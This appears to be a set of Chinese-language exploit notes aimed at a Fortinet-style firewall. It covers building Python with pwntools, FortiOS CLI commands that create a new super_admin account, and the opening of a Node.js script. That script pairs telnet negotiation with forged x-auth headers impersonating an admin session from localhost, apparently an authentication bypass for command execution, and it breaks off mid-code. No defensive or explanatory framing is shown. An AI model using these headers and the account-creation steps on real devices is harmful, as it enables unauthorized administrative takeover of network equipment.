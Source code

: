 # python 编译安装

```
apt install build-essential zlib1g-dev libncurses5-dev libgdbm-dev libnss3-dev libssl-dev libsqlite3-dev libreadline-dev libffi-dev curl libbz2-dev

wget https://www.python.org/ftp/python/3.9.6/Python-3.9.6.tgz

tar -xvf Python-3.9.6.tgz

cd Python-3.9.6/

./configure --enable-optimizations

make -j 8

make install

python3.9 -m pip install pwntools
```

# 超级用户创建

```
config system admin
edit newadmin
set password yourpassword
set accprofile super_admin
end
```

# busybox 环境下的cli命令执行

```js
const net = require('net');

const CMD = {
    IAC: 255, // interpret as command
    DONT: 254, // you are not to use option
    DO: 253, // please use option
    WONT: 252, // I won't use option
    WILL: 251, // I will use option
    SB: 250, // sub-negotiation
    SE: 240  // End sub-negotiation
};

const OPT = {
    ECHO: 1, // RFC 857
    NAWS: 31  // RFC 1073
};

expectedGreetings = /Connected\./;

const headers = {
    'x-auth-login-name': 'admin',
    'x-auth-admin-name': 'admin',
    'x-auth-vdom': 'root',
    'x-auth-profile': 'super_admin',
    'x-auth-admin-vdoms': 'root',
    'x-auth-sso': 'none',
    'x-forwarded-client' : '[127.0.0.1]:2333',
    'x-forwarded-local' : '[127.0.0.1]:443',
```